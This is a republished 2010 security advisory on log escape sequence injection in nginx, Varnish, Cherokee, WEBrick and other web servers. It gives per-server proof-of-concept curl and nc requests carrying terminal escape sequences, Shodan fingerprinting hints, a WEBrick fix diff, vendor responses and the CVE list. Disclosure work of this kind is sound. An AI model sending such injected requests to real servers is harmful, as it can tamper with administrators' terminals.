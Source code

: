 Nginx, Varnish, Cherokee, thttpd, mini-httpd, WEBrick, Orion, AOLserver, Yaws and Boa log escape sequence injection @ Ush.it
############################################################################################################################
:date: 2010-01-10 21:07
:author: jekil
:category: Research
:tags: injection, log escape, log escape sequence injection
:slug: nginx-varnish-cherokee-thttpd-mini-httpd-webrick-orion-aolserver-yaws-and-boa-log-escape-sequence-injection-ush-it
:status: published
:alias: /advisory/nginx-varnish-cherokee-thttpd-mini-httpd-webrick-orion-aolserver-yaws-and-boa-log-escape-sequence-injection-ush-it/

With the `Ush.it <http://www.ush.it/>`__ team we published an advisory
about “\ `Nginx, Varnish, Cherokee, thttpd, mini-httpd, WEBrick, Orion,
AOLserver, Yaws and Boa log escape sequence
injection <http://www.ush.it/2010/01/11/nginx-varnish-cherokee-thttpd-mini-httpd-webrick-orion-aolserver-yaws-and-boa-log-escape-sequence-injection/>`__\ ”.
The original post
is `here <http://www.ush.it/2010/01/11/nginx-varnish-cherokee-thttpd-mini-httpd-webrick-orion-aolserver-yaws-and-boa-log-escape-sequence-injection/>`__ and can be downloaded from `here <{static}/public/advisory/hack_httpd_escape-2010/adv.txt>`__.

.. code-block:: text

    Nginx, Varnish, Cherokee, thttpd, mini-httpd, WEBrick, Orion, AOLserver,
    Yaws and Boa log escape sequence injection

     Name              Nginx, Varnish, Cherokee, thttpd, mini-httpd, WEBrick,
                       Orion, AOLserver, Yaws and Boa log escape sequence
                       injection
     Systems Affected  nginx 0.7.64
                       Varnish 2.0.6
                       Cherokee 0.99.30
                       mini_httpd 1.19
                       thttpd 2.25b0
                       WEBrick 1.3.1
                       Orion 2.0.7
                       AOLserver 4.5.1
                       Yaws 1.85
                       Boa 0.94.14rc21
     Severity          Medium
     Impact (CVSSv2)   Medium 5/10, vector: (AV:N/AC:L/Au:N/C:P/I:N/A:N)
     Vendor            http://www.nginx.net/
                       http://varnish.projects.linpro.no/
                       http://www.cherokee-project.com/
                       http://www.ruby-lang.org/
                       http://www.acme.com/software/thttpd/
                       http://www.acme.com/software/mini_httpd/
                       http://www.orionserver.com/
                       http://www.aolserver.com/
                       http://yaws.hyber.org/
                       http://www.boa.org/
     Advisory          http://www.ush.it/team/ush/hack_httpd_escape/adv.txt
     Authors           Giovanni "evilaliv3" Pellerano (evilaliv3 AT ush DOT it)
                       Alessandro "jekil" Tanasi (alessandro AT tanasi DOT it)
                       Francesco "ascii" Ongaro (ascii AT ush DOT it)
     Date              20100110

    I. BACKGROUND

    nginx is a HTTP and reverse proxy server written by Igor Sysoev.
    Varnish is a state-of-the-art, high-performance HTTP accelerator.
    Cherokee is a very fast, flexible and easy to configure Web Server.
    thttpd is a simple, small, portable, fast, and secure HTTP server.
    mini_httpd is a small HTTP server.
    WEBrick is a Ruby library providing simple HTTP web server services.
    Orion Application Server is a pure java application-server.
    AOLserver is America Online's Open-Source web server.
    Yaws is a HTTP high perfomance 1.1 webserver.
    Boa is a single-tasking HTTP server.

    II. DESCRIPTION

    Nginx, Varnish, Cherokee, thttpd, mini-httpd, WEBrick, Orion, AOLserver,
    Yaws and Boa are subject to logs escape sequence injection
    vulnerabilites.

    Escape sequences are special characters sequences that are used to
    instruct the terminal to perform special operations like executing
    commands [4, 5] or dumping the buffer to a file [6, 7].

    When the webserver is executed in foreground in a pty or when the
    logfiles are viewed with tools like "cat" or "tail" such control chars
    reach the terminal and are executed.

    III. ANALYSIS

    Summary:

     A) "nginx" log escape sequence injection
       (Affected versions: 0.7.64 and probably earlier versions)

     B) "Varnish" log escape sequence injection
       (Affected versions: 2.0.6 and probably earlier versions)

     C) "Cherokee" log escape sequence injection
       (Affected versions: 0.99.30 and probably earlier versions)

     D) "thttpd" log escape sequence injection
       (Affected versions: thttpd/2.25b and probably earlier versions)

     E) "mini_httpd" log escape sequence injection
       (Affected versions: 1.19 and probably earlier versions)

     F) "WEBrick" log escape sequence injection
       (Affected versions: 1.3.1 and probably earlier versions)

     G) "Orion" log escape sequence injection
       (Affected versions: 2.0.7 and probably earlier versions)

     H) "AOLserver" log escape sequence injection
       (Affected versions: 4.5.1 and probably earlier versions)

     I) "Yaws" log escape sequence injection
       (Affected versions: 1.85 and probably earlier versions)

     L) "Boa" log escape sequence injection
       (Affected versions: 0.94.14rc21 and probably earlier versions)

    A) "nginx" log escape sequence injection

    One of the following two Proofs Of Concept can be used in order to
    verify the vulnerability.

    curl -kis http://localhost/%1b%5d%32%3b%6f%77%6e%65%64%07%0a

    echo -en "GET /\x1b]2;owned?\x07\x0a\x0d\x0a\x0d" > payload
    nc localhost 80 < payload

    B) "Varnish" log escape sequence injection

    One of the following two Proofs Of Concept can be used in order to
    verify the vulnerability.

    xterm varnishlog

    echo -en "GET /\x1b]2;owned?\x07\x0a\x0d\x0a\x0d" > payload
    nc localhost 80 < payload

    C) "Cherokee" log escape sequence injection

    The following Proof Of Concept can be used in order to verify the
    vulnerability.

    curl -kis http://localhost/%1b%5d%32%3b%6f%77%6e%65%64%07%0a

    D) "thttpd" log escape sequence injection

    The following Proof Of Concept can be used in order to verify the
    vulnerability.

    echo -en "GET /\x1b]2;owned?\x07\x0a\x0d\x0a\x0d" > payload
    nc localhost 80 < payload

    E) "mini_httpd" log escape sequence injection

    One of the following two Proofs Of Concept can be used in order to
    verify the vulnerability.

    curl -kis http://localhost/%1b%5d%32%3b%6f%77%6e%65%64%07%0a

    echo -en "GET /\x1b]2;owned?\x07\x0a\x0d\x0a\x0d" > payload
    nc localhost 80 < payload

    F) "WEBrick" log escape sequence injection

    One of the following two Proofs Of Concept can be used in order to
    verify the vulnerability.

    curl -kis http://localhost/%1b%5d%32%3b%6f%77%6e%65%64%07%0a

    echo -en "GET /\x1b]2;owned?\x07\x0a\x0d\x0a\x0d" > payload
    nc localhost 80 < payload

    G) "Orion" log escape sequence injection

    One of the following two Proofs Of Concept can be used in order to
    verify the vulnerability.

    curl -kis http://localhost/%1b%5d%32%3b%6f%77%6e%65%64%07%0a

    echo -en "GET /\x1b]2;owned?\x07\x0a\x0d\x0a\x0d" > payload
    nc localhost 80 < payload

    H) "AOLserver" log escape sequence injection

    The following Proof Of Concept can be used in order to verify the
    vulnerability.

    echo -en "GET /\x1b]2;owned?\x07\x0a\x0d\x0a\x0d" > payload
    nc localhost 80 < payload

    I) "Yaws" log escape sequence injection

    One of the following two Proofs Of Concept can be used in order to
    verify the vulnerability.

    curl -kis http://localhost/%1b%5d%32%3b%6f%77%6e%65%64%07%0a

    echo -en "GET /\x1b]2;owned?\x07\x0a\x0d\x0a\x0d" > payload
    nc localhost 80 < payload

    L) "Boa" log escape sequence injection

    The following Proof Of Concept can be used in order to verify the
    vulnerability.

    curl -kis http://localhost/%1b%5d%32%3b%6f%77%6e%65%64%07%0a

    IV. DETECTION

    Services like Shodan (shodan.surtri.com) or Google can be used to get an
    approximate idea on the usage of the products.

    Some examples:
     - http://shodan.surtri.com/?q=nginx
     - http://www.google.com/search?q="powered+by+Cherokee"
     - curl -kis http://www.antani.gov | grep -E "Server: Orion/2.0.8"

    V. WORKAROUND

    Cherokee and WEBrick (Ruby) released related security fixes and releases
    as detailed below.

    Cherokee issued a public patch that resolved the issue but caused some
    issues (http://svn.cherokee-project.com/changeset/3944) and has been
    later replaced (http://svn.cherokee-project.com/changeset/3977) by a
    better fix that both resolve the issue and doesn't affect the normal
    webserver behavior. Use the second patch or a safe release like 0.99.34
    or above. If you are using Cherokee 0.99.32 please note that your build
    uses the first patch.

    Webrick (Ruby) sent us the following patch and issued a release
    that fixes the issues. Detailed informations are available at the
    following url:

    http://www.ruby-lang.org/en/news/2010/01/10/webrick-escape-sequence-injection

    The patch we reviewed is the following but please refer to the vendor's
    article for exact informations.

    --8<--8<--8<--8<--8<--8<--8<--8<--8<--8<--8<--8<--8<--8<--8<--8<--8<--

    Index: lib/webrick/httpstatus.rb
    ===================================================================
    --- lib/webrick/httpstatus.rb   (revision 26065)
    +++ lib/webrick/httpstatus.rb   (working copy)
    @@ -13,5 +13,15 @@ module WEBrick
       module HTTPStatus

    -    class Status      < StandardError; end
    +    class Status      < StandardError
    +      def initialize(message, *rest)
    +        super(AccessLog.escape(message), *rest)
    +      end
    +      class << self
    +        attr_reader :code, :reason_phrase
    +      end
    +      def code() self::class::code end
    +      def reason_phrase() self::class::reason_phrase end
    +      alias to_i code
    +    end
         class Info        < Status; end
         class Success     < Status; end
    @@ -69,4 +79,5 @@ module WEBrick

         StatusMessage.each{|code, message|
    +      message.freeze
           var_name = message.gsub(/[ \-]/,'_').upcase
           err_name = message.gsub(/[ \-]/,'')
    @@ -80,16 +91,10 @@ module WEBrick
           end

    -      eval %-
    -        RC_#{var_name} = #{code}
    -        class #{err_name} < #{parent}
    -          def self.code() RC_#{var_name} end
    -          def self.reason_phrase() StatusMessage[code] end
    -          def code() self::class::code end
    -          def reason_phrase() self::class::reason_phrase end
    -          alias to_i code
    -        end
    -      -
    -
    -      CodeToError[code] = const_get(err_name)
    +      const_set("RC_#{var_name}", code)
    +      err_class = Class.new(parent)
    +      err_class.instance_variable_set(:@code, code)
    +      err_class.instance_variable_set(:@reason_phrase, message)
    +      const_set(err_name, err_class)
    +      CodeToError[code] = err_class
         }

    Index: lib/webrick/httprequest.rb
    ===================================================================
    --- lib/webrick/httprequest.rb  (revision 26065)
    +++ lib/webrick/httprequest.rb  (working copy)
    @@ -267,9 +267,5 @@ module WEBrick
             end
           end
    -      begin
    -        @header = HTTPUtils::parse_header(@raw_header.join)
    -      rescue => ex
    -        raise  HTTPStatus::BadRequest, ex.message
    -      end
    +      @header = HTTPUtils::parse_header(@raw_header.join)
         end

    Index: lib/webrick/httputils.rb
    ===================================================================
    --- lib/webrick/httputils.rb    (revision 26065)
    +++ lib/webrick/httputils.rb    (working copy)
    @@ -130,9 +130,9 @@ module WEBrick
               value = $1
               unless field
    -            raise "bad header '#{line.inspect}'."
    +            raise HTTPStatus::BadRequest, "bad header '#{line}'."
               end
               header[field][-1] << " " << value
             else
    -          raise "bad header '#{line.inspect}'."
    +          raise HTTPStatus::BadRequest, "bad header '#{line}'."
             end
           }

    Index: lib/webrick/accesslog.rb
    ===================================================================
    --- lib/webrick/accesslog.rb    (revision 26065)
    +++ lib/webrick/accesslog.rb    (working copy)
    @@ -54,5 +54,5 @@ module WEBrick
                raise AccessLogError,
                  "parameter is required for \"#{spec}\"" unless param
    -           params[spec][param] || "-"
    +           param = params[spec][param] ? escape(param) : "-"
              when ?t
                params[spec].strftime(param || CLF_TIME_FORMAT)
    @@ -60,8 +60,16 @@ module WEBrick
                "%"
              else
    -           params[spec]
    +           escape(params[spec].to_s)
              end
           }
         end
    +
    +    def escape(data)
    +      if data.tainted?
    +        data.gsub(/[[:cntrl:]\\]+/) {$&.dump[1...-1]}.untaint
    +      else
    +        data
    +      end
    +    end
       end
     end

    --8<--8<--8<--8<--8<--8<--8<--8<--8<--8<--8<--8<--8<--8<--8<--8<--8<--

    VI. VENDOR RESPONSE

    We contacted the vendors of eleven affected webservers, counting the
    previous advisory [1] for Jetty. Three fixed the issue (Cherokee,
    WEBrick/Ruby and Jetty), one will not fix the issue (Varnish) and one
    acknowledged the issue (AOLserver).

    Nginx              NO-RESPONSE
    Cherokee           FIXED
    thttpd             NO-RESPONSE
    mini-httpd         NO-RESPONSE
    WEBrick            FIXED
    Orion              NO-RESPONSE
    AOLserver          ACK
    Yaws               NO-RESPONSE
    Boa                NO-RESPONSE
    Varnish            WONT-FIX

    The response was overall good and it was nice to work with them, in
    particular we want to thank Cherokee's staff, Ruby's staff, Raphael
    Geissert (Debian) and Steven M. Christey (Mitre) for the support.

    Poul-Henning Kamp (Varnish) replied to our contact email with the
    following email that we quote as-is.

    --8<--8<--8<--8<--8<--8<--8<--8<--8<--8<--8<--8<--8<--8<--8<--8<--8<--

    The official Varnish response, which I ask that you include in its
    entirety in your advisory, if you list Varnish as "vulnerable" in it:

    This is not a security problem in Varnish or any other piece of software
    which writes a logfile.

    The real problem is the mistaken belief that you can cat(1) a random
    logfile to your terminal safely.

    This is not a new issue. I first remember the issue with xterm(1)'s
    inadvisably implemented escape-sequences in a root-context, brought up
    heatedly, in 1988, possibly late 1987, at Copenhagens University
    Computer Science dept. (Diku.dk). Since then, nothing much have changed.

    The wisdom of terminal-response-escapes in general have been questioned
    at regular intervals, but still none of the major terminal emulation
    programs have seen fit to discard these sequences, probably in a
    misguided attempt at compatibility with no longer used 1970'es
    technology.

    I admit that listing "found a security hole in all HTTP-related programs
    that write logfiles" will look more impressive on a resume, but I think
    it is misguided and a sign of trophy-hunting having overtaken common
    sense.

    Instead of blaming any and all programs which writes logfiles, it would
    be much more productive, from a security point of view, to get the
    terminal emulation programs to stop doing stupid things, and thus fix
    this and other security problems once and for all.

    --8<--8<--8<--8<--8<--8<--8<--8<--8<--8<--8<--8<--8<--8<--8<--8<--8<--

    We would like to punctuate the following facts:

    1) We totally agree that the root of the problem is an unwise design in
    the terminal emulators. If in 70' controls were sent out of band on a
    secondary channel we would not have the equivalent of Blue Boxing in the
    terminal.

    This is a known issue from years. We didn't invented this attack vector
    and never claimed so. We don't think that design changes will happen in
    the short or mid term so it's better to have a proactive approach and
    sanitize outputs where functionalities are likely to not be affected at
    all like in this case.

    Security in complex systems requires some synergy.

    2) Varnish is the only program that doesn't need a "cat" program as logs
    are stored in memory and displayed using the "varnishlog" utility.

    2) Apache fixed a similiar bug (CVE-2003-0020), "Low: Error log escape
    filtering", in 2004 (six years ago). The bug was affecting Apache up
    to 1.3.29 [8] or 2.0.48 [9] depending on the branch.

    Take you conclusion, criticize if you want. In the meantime things are a
    little safer.

    VII. CVE INFORMATION

    CVE-2009-4487 nginx 0.7.64
    CVE-2009-4488 Varnish 2.0.6
    CVE-2009-4489 Cherokee 0.99.30
    CVE-2009-4490 mini_httpd 1.19
    CVE-2009-4491 thttpd 2.25b0
    CVE-2009-4492 WEBrick 1.3.1
    CVE-2009-4493 Orion 2.0.7
    CVE-2009-4494 AOLserver 4.5.1
    CVE-2009-4495 Yaws 1.85
    CVE-2009-4496 Boa 0.94.14rc21

    VIII. DISCLOSURE TIMELINE

    20091117 Bug discovered
    20091208 First vendor contact
    20091209 Cherokee team confirms vulnerability (Alvaro Lopez Ortega)
    20091209 Alvaro Lopez Ortega commits Cherokee patch
    20091210 Ruby team confirms vulnerability (Shugo Maeda)
    20091211 Shugo Maeda sends us webrick patch for evaulation
    20091211 AOLserver confirms vulnerability (Jim Davidson)
    20091221 Contacted Raphael Geissert (Debian Security)
    20091223 Contacted Steven M. Christey (mitre.org)
    20091230 Raphael Geissert forwards to Redhat, Debian, Ubuntu and Mitre
    20091230 CVEs assigned by Steven M. Christey
    20100105 Poul-Henning (Varnish) Kamp said WONT-FIX
    20100105 Ruby team is ready for commit (Urabe Shyouhei)
    20100106 Second vendor contact
    20100110 Advisory release

    IX. REFERENCES

    [1] Jetty 6.x and 7.x Multiple Vulnerabilities
        http://www.ush.it/team/ush/hack-jetty6x7x/jetty-adv.txt
    [2] Apache does not filter terminal escape sequences from error logs
        http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-0020
    [3] Apache does not filter terminal escape sequences from access logs
        http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-0083
    [4] Debian GNU/Linux XTERM (DECRQSS/comments) Weakness Vulnerability
        http://www.milw0rm.com/exploits/7681
    [5] Terminal Emulator Security Issues
        http://marc.info/?l=bugtraq&m=104612710031920&w=2
    [6] Eterm Screen Dump Escape Sequence Local File Corruption Vulnerability
        http://www.securityfocus.com/bid/6936/discuss
    [7] RXVT Screen Dump Escape Sequence Local File Corruption Vulnerability
        http://www.securityfocus.com/bid/6938/discuss
    [8] Apache httpd 1.3 vulnerabilities
        http://httpd.apache.org/security/vulnerabilities_13.html
    [9] Apache httpd 2.2 vulnerabilities
        http://httpd.apache.org/security/vulnerabilities_22.html

    X. CREDIT

    Giovanni "evilaliv3" Pellerano, Alessandro "jekil" Tanasi and
    Francesco "ascii" Ongaro are credited with the discovery of this
    vulnerability.

    Giovanni "evilaliv3" Pellerano
    web site: http://www.ush.it/, http://www.evilaliv3.org/
    mail: evilaliv3 AT ush DOT it

    Alessandro "jekil" Tanasi
    web site: http://www.tanasi.it/
    mail: alessandro AT tanasi DOT it

    Francesco "ascii" Ongaro
    web site: http://www.ush.it/
    mail: ascii AT ush DOT it

    X. LEGAL NOTICES

    Copyright (c) 2009 Francesco "ascii" Ongaro

    Permission is granted for the redistribution of this alert
    electronically. It may not be edited in any way without mine express
    written consent. If you wish to reprint the whole or any
    part of this alert in any other medium other than electronically,
    please email me for permission.

    Disclaimer: The information in the advisory is believed to be accurate
    at the time of publishing based on currently available information. Use
    of the information constitutes acceptance for use in an AS IS condition.
    There are no warranties with regard to this information. Neither the
    author nor the publisher accepts any liability for any direct, indirect,
    or consequential loss or damage arising from use of, or reliance on,
    this information.
